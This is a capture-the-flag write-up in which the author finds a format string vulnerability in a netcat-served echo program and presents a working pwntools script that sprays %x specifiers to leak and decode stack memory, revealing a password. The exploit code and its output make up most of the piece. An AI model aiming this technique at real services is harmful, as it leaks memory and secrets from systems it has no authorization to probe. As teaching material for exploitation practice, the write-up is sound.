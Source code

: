 ```yaml
---
title: "Bleed the Stack"
description: "An amateur programmer decides that for his hello world program, he will echo whatever you say. Can you find his mistake?"
author: "0x0539"
date: "2023-05-16"
published: true
tags: ["capture the flag", "0x0539", "binex"]
---
```


# Bleed the Stack

<aside>
An amateur programmer decides that for his hello world program, he will echo whatever you say. Can you find his mistake?
</aside>

This challenge is based around a command-line program served over `netcat`. Passing the challenge url and port to `nc`, the challenge responds with the following
and prompts us for input:

```bash
pls@RUBY ~ > nc challenges.0x0539.net 7070
ADVANCED CHALLENGE :: BLEED THE STACK
*****************************

Test me! Enter your name and I'll print it back to you!
```

Given the challenge's name, our flag is probably hidden in this program's call stack, so I start off by sending `%x`, or a hexadecimal format string specifier.
This returned hex values, which means the program is likely vulnerable to a [format string attack](https://owasp.org/www-community/attacks/Format_string_attack):

```bash
# ...

Test me! Enter your name and I'll print it back to you!
%x %x %x %x %x %x %x %x
40 f7f77620 1 0 1 20656854 73736170 64726f77
```

To confirm this, we can convert the hexadecimal values to ASCII, yielding the (malformed) string `@÷÷v [f7f77620] ehTssapdrow` (noting that `[f7f77620]` is invalid as ASCII;
the information here is intended to be read by a CPU and so is not necessarily human-readable text).

The string `ehTssapdrow` stands out as some form of actual text - it's 'little-endian' ordering of the ascii string `The password`.

We can automate an exploit with the `pwntools` python module:
- open a connection to the `netcat` server,
- send loads of '%x' format specifiers when prompted for input,
- and finally parse and decode the response.

Noting that some bytearrays dont appear to have a valid ascii representation (such as the aformentioned `f7f77620`), we can handle any errors by just ignoring these as unnecessary.

```python
from pwn import *

context.log_level = "CRITICAL"
host, port = "challenges.0x0539.net", 7070
format_str = "%x " * 299


def decode_bytes(dword: bytes) -> str:
    # change endianness to BE & decode
    try:
        decoded = bytes.fromhex(dword).decode("ascii")[::-1]
        return "".join([ch for ch in decoded if 32 <= ord(ch) <= 126])
    # return unchanged array if it can't be decoded
    except UnicodeDecodeError:
        print(f"UnicodeDecodeError on bytearray '{dword}'.\n")
        return f" {dword} "


def main():
    s = remote(host, port)
    s.recvuntil(b"you!\n")
    s.sendline(format_str)
    raw_bytes = s.recvall().decode().strip()

    # print the values leaked from the call stack to stdout
    print(f"\nbytearray:\n{raw_bytes}\n")
    dwords = raw_bytes.split(" ")

    # ensure each array is 4 bytes long
    dwords = [dword.zfill(8) for dword in dwords]
    decoded_dwords = "".join([decode_bytes(dword) for dword in dwords])

    # print the decoded values
    print(f"leaked:\n{decoded_dwords}")


main()
```

The initial leaked output from this program's call stack gives us the following raw hex:

```lua
40 f7f20620 1 0 1 20656854 73736170 64726f77 3a736920 6c5f4920 5f337630 6d723066 625f7434 733675 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```

Which our script will parse, decoding ASCII strings from their hexadecimal values:

```lua
@ f7f20620 The password is: [flag redacted] %x %x %x %x %x %x %x %x %x %
```


